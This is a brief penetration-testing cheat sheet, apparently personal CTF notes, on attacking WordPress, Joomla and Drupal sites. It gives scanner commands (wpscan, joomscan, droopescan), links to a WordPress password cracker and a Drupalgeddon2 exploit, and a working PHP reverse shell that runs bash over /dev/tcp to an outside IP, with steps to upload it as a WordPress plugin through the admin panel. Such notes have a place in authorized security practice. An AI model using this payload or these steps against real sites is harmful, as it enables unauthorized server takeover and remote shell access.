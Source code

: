 ```yaml
---
title: CMSs
category: web
order: 1
---
```


# 1 Wordpress
---

##  wpscan

  ```
  wpscan --url http://sandbox.local  --enumerate ap,at,cb,dbe -o sandbox.out
  ```

  ```
  ./wpscan –url http://IP/ –enumerate p
  ```
  a veces conviene usar el modo agressive de wpscan

## wordpress password cracker

  https://github.com/MrSqar-Ye/wpCrack.git


## wordpress reverse shell admin panel
1. create php code

```
<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```

2. zip the php
3. upload the zip as plugin
3. activate plugin

# 2 Joomla
---
  ip/administrator/manifests/files/joomla.xml <- te da la version

## joomscan

```
joomscan -ec -u  http://curling.htb
```


# 3 DRUPAL
---
  https://github.com/dreadlocked/Drupalgeddon2

```  
droopescan scan drupal -u 10.10.10.102:80 
```
